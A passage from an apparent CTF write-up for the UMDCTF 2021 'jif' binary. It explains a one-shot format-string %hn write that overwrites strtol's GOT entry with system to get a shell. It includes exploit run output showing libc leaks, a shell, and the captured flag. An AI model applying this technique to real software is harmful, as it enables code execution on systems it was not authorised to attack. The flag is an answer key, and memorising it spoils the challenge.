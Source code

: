 Most of this should be fairly obvious from the Analysis section.  The printf offsets, the buffer overflow, the libc offsets, etc...

However the `while True:` and `if (libc.sym.system >> 16 == libc.sym.strtol >> 16):` may be a bit confusing.

If you look at the source again, this is the line that populates `local_118` and makes the `printf` exploit possible: `strncpy(local_118,local_148,0xfa);`.  `strncpy` will stop copying when it hits `\0` (NULL) even if _n_ has not been reached.  This means we get a one shot change to `strtol`.  IOW, we cannot write to two (or more) address with our format-string attack, either `strncpy` will not copy the 2nd (et al) address of our format-string, or if we try to loop it with a partial write to the `strtok` GOT entry, the program will most likely just crash.  So my solution was to verify that only the last 16 bits of `system` and `strtol` differed so I could have an easy one-write format-string exploit.

Once out of the loop (runs a few times, most of the time, once (below I captured 4 attempts)) the 272 bytes of padding plus the format-string attack is sent.

The format-string starts at `printf` offset `16` (see Analysis section above).  The string `%NNNNNNc` where `NNNNNNN` is the zero padded least `16` bits of `system`'s location.  The next string at offset `17` is the location we want to write data to as a `short` (`hn`).  Both these strings need to be aligned with the stack.  Lastly the location of `strtol` in the GOT at `printf` offset `18`.

Now, `strtol` is `system`, on the next `CONSOLE>` prompt just enter `/bin/sh` and get your shell.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/umdctf2021/jif/jif'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chals5.umdctf.io on port 7002: Done
[*] '/pwd/datajerk/umdctf2021/jif/libc6_2.27-3ubuntu1.4_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] __libc_start_main: 0x7f5e46938b10
[*] libc.address: 0x7f5e46917000
[*] Closed connection to chals5.umdctf.io port 7002
[+] Opening connection to chals5.umdctf.io on port 7002: Done
[*] __libc_start_main: 0x7f5e813ebb10
[*] libc.address: 0x7f5e813ca000
[*] Closed connection to chals5.umdctf.io port 7002
[+] Opening connection to chals5.umdctf.io on port 7002: Done
[*] __libc_start_main: 0x7fcd5b32ab10
[*] libc.address: 0x7fcd5b309000
[*] Closed connection to chals5.umdctf.io port 7002
[+] Opening connection to chals5.umdctf.io on port 7002: Done
[*] __libc_start_main: 0x7f24c9aadb10
[*] libc.address: 0x7f24c9a8c000
[*] system.address: 0x7f24c9adb550
[*] strtol.address: 0x7f24c9ad1230
[*] Switching to interactive mode
$ cat flag
UMDCTF-{1_f0UnD_th3_PLaN3t_N0w_t0_hyp325p4c3}
```
